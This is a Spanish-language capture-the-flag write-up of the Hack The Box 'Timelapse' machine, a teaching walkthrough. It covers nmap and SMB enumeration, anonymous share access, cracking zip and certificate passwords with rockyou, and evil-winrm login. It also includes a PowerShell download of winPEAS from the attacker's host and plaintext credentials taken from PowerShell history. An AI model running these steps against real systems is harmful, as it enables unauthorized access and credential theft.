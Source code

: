```yaml
---
layout: post
author: Sergio Salgado
---
```


# [](#header-1)Maquina Timelapse

## [](#header-2)Indice
- <a href="#introduccion">Introduccion</a>
- <a href="#reconocimiento">Reconocimiento</a>
- <a href="#escaneo">Escaneo</a>
  - <a href="#gain_access">Gain Access</a>
  - <a href="#privilege_scalation">Escalamiento de privilegios</a>

## [](#header-2)<a id="introduccion">Introduccion</a>
  
  Esta maquina es una de las faciles que ofrece HTB (hack the box), para ir comenzando en el mundo del pentest, es bueno ir documentando los pasos que se han tomado para lograr capturar las flags de objetivo de las maquinas

## [](#header-2)<a id="about_monero">Reconocimiento</a>

### [](#header-3)PING
En esta etapa, verificamos la conectividad con la maquina, escaneo de puertos y reconocimiento de servicios activos en los servicios.
**PING** Comunmente se utiliza un ping para verificar la comunicacion con la maquina a la que se realizara la prueba, pero el ping en linux esta en un loop infinito, hasta que se corta el proceso del comando. Es por ello que utilizaremos un ping discreto:
```S
ping -c 2 10.10.11.152
#ttl=63 o 64 significa que la maquina es linux
#ttl=127 o 128 significa que es windows
```
![Ping discreto](/assets/images/Timelapse/ping_discreto.png)

## [](#header-2)<a id="escaneo">Escaneo</a>

### [](#header-3)NMAP
**NMAP** Esta herramienta es utilizada por los administradores de redes para hacer un escaneo rapido y dependiendo de sus parametros de configuracion, profundizar en la busqueda de informacion. 
*Nota* Es importante no depender de esta herramienta ya que el escaneo es agresivo y en un entorno controlado, se pueden activar alarmas de intruision.
Para esta maquina, utilizaremos el siguiente comando:
```S
nmap -vvv -Pn -sCV -T4 -p0-65535 --reason -oN Timelapse.nmap 10.10.11.152
# -T4 o T5 para la velocidad de escaneo 
# -p0-65535 para una búsqueda en todos los puertos
# -vvv para visualizar las tareas que va completando(Esto es útil, por si llegamos a reconocer algún servicio explotable)
# -p0-65535 Para establecer el rango de puertos de busqueda
# -sCV es la combinacion de los comandos sC que es para el escaneo con scripts por default de nmap y sV que es para sondear los puertos abiertos
# -oN es la salida en el formato que establezcamos que comunmente es .nmap o podria ser en un .xml
# -O es para la deteccion del Sistema Operativo 
```

![nmap output](/assets/images/Timelapse/nmap_out.png)

Buscaremos si existen vulnerabilidades registradas en el sistema con la herramienta nmap y los scripts específicos de análisis para el protocolo samba:
La ruta especifica y filtrado del servicio que usaremos para la búsqueda y visualizarlos es:
```S
ls /usr/share/nmap/scripts | grep smb-vuln
```

![nmap specific search](/assets/images/Timelapse/nmap_specific.png)

El comando nos muestra que es vulnerable, y se cuenta con un CVE, con el cual habría que desarrollar una herramienta donde se use el buffer overflow y ejecutar un exploit diseñado para el sistema operativo.

## [](#header-2)<a id="gain_access">Gain Access</a>

### [](#header-3)Domain integration
**Integracion en dominio del servidor** Despues del escaneo, es posible descubrir algunos dominios del servidor, para poder establecer una comunicacion correcta con los servicios nos integraremos en el servicio. Modificando el archivo que se encuentra en /etc/hosts para poder editarlo y relacionar la IP de la maquina con el dominio encontrado. 
*Nota* A lo largo de la prueba, se pueden encontrar mas dominios asociados a la ip y sera necesario regresar a este archivo para modificarlo.
```S
nano /etc/hosts
```
![Integracion de maquina en el dominio](/assets/images/Timelapse/domain_integration.png)

Notamos que el puerto 445 esta expuesto, normalmente usado para el servicio smb de Windows y a continuacion utilizaremos otras herramientas para verificarlo.

Ocuparemos la herramienta enum4linux para obtener algunos usuarios por el servicio de smb
```S
enum4linux -a 10.10.11.152
```
![enum4linux output](/assets/images/Timelapse/enum_view.png)

Con el siguiente comando, descubriremos algunos directorios compartidos que no tienen contrasenas
```S
smbclient --no-pass --list=10.10.11.152
```
![smb no pass output](/assets/images/Timelapse/smb_output.png)

Para conectarnos al rpc y obtener mas informacion, utilizaremos el siguiente comando y en la imagen adjunta hay otros comandos que podrian ser de ayuda en la recopilacion de informacion.

```S
rpcclient -U "" -N 10.10.11.152
```
![rpc output](/assets/images/Timelapse/rpc_output.png)

Aplicaremos el siguiente comando para intentar establecer un acceso a un directorio en el que no tenemos acceso

```S
smbclient -U 'ANONYMOUS LOGON' -N \\\\10.10.11.152\\Share
```
Obtuvimos acceso, y ahora podemos descargar un archivo .zip con contrasena y dentro que un archivo cifrado dentro del directorio Dev
- Usamos el comando get para descargar el archivo .zip 

![Archivos descargados](/assets/images/Timelapse/files_downloaded1.png)

Usaremos una herramienta llamada frackzip, la cual se utiliza para descomprimir archivos zip, y para abrirlos por fuerza bruta, en este caso usaremos una wordlist que tiene integrado Kali:
```S
sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip”
```
![frackzip usage](/assets/images/Timelapse/frackzip.png)
La contraseña encontrada es supremelegacy, al encontrar contraseñas que parecen haber sido creadas por personas y no por algún algoritmo, nos damos cuenta de que la complejidad de las contraseñas no es alta.

Para romper con la seguridad de estos archivos, utilizaremos una herramienta obtenida de:
https://github.com/crackpkcs12/crackpkcs12.git
Para su instalación, utilizaremos los comandos:

```S
sudo apt install libssl-dev
sudo ./configure
make    
```

El comando que utilizaremos, para volver a usar la wordlist, es:
```S
crackpkcs12 -d /usr/share/wordlists/rockyou.txt ./legacyy_dev_auth.pfx
```

![crackpkcs12 usage](/assets/images/Timelapse/crackpkcs12.png)

La contraseña encontrada es thuglegacyy, esta la usaremos para ingresar en el servicio y generar una llave privada llamada priv.key y cert.crt

El comando que utilizaremos para establecer la conexion con el servicio, utilizar las credenciales obtenidas y despues ingresar la contrasena del archivo .pfx que anteriormente obtuvimos, por medio de openssl es:
```S
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key
```

![Openssl example](/assets/images/Timelapse/openssl_prv.png)


Después será necesario generar un certificado cl e igualmente lo podemos generar con openssl
```S
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.crt
#ingresamos nuevamente la contraseña thuglegacyy
```
A continuacion, estableceremos la coneccion, usando nuestra prv.key y el certificado cert.crt con:
```S
evil-winrm -i 10.10.11.152 -S -c cert.crt -k prv.key -p -u
``` 
![Evil win output](/assets/images/Timelapse/evil-win.png)

Una vez dentro, navegamos al Escritorio, y con el comando 'type' podremos leer la flag 

![First flag](/assets/images/Timelapse/flag1.png)

## [](#header-2)<a id="privilege_scalation">Escalamiento de privilegios</a>
Despues del paso anterior, utilizaremos la siguiente herramienta para automatizar un poco el proceso de recopilacion de informacion y poder escalar privilegios mas rapido. ases/download/20220410/winPEASx64.exe

Abrimos un servicio http para poder descargarnos el archivo desde la maquina
```py
python3 -m http.server 80
``` 
![Python http server](/assets/images/Timelapse/python_http.png)

Con PowerShell, ejecutamos el siguiente comando para hacer la descarga
```powershell
powershell invoke-WebRequest -UseBasicParsing 10.10.14.153/winPEASx64.exe -OutFile winPEASx64.exe
``` 
![Uploading winPEAS tool](/assets/images/Timelapse/winpeas64.png)

Ejecutamos la herramienta y ahora sabemos que en el servicio de PowerShel, que se encuentra en la siguiente ruta, es vulnerable y quizas aqui encontremos credenciales para escalar privilegios.
```S
Users/legacyy/AppData/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
``` 

Nos descargamos el archivo de historia de comandos y lo visualizamos

![Powershell history](/assets/images/Timelapse/pwshell_history.png)

Historial de comandos, tambien hay algo interesante, en la parte de as a plain text nos muestra una contrasena y un usuario en texto plano

![Openning Powershell history](/assets/images/Timelapse/openning_pwshell_history.png)

LDAP es un protocolo de acceso para los servicios del directorio activo, y es el que utilizaremos para continuar navegando en la maquina intentando escalar los privilegios

![LDAP connection](/assets/images/Timelapse/ldap_conection.png)

Leemos la ultima bandera, con la contrasena que hemos obtenido; que igualmente se encuentra en el escritorio y habremos terminado la maquina
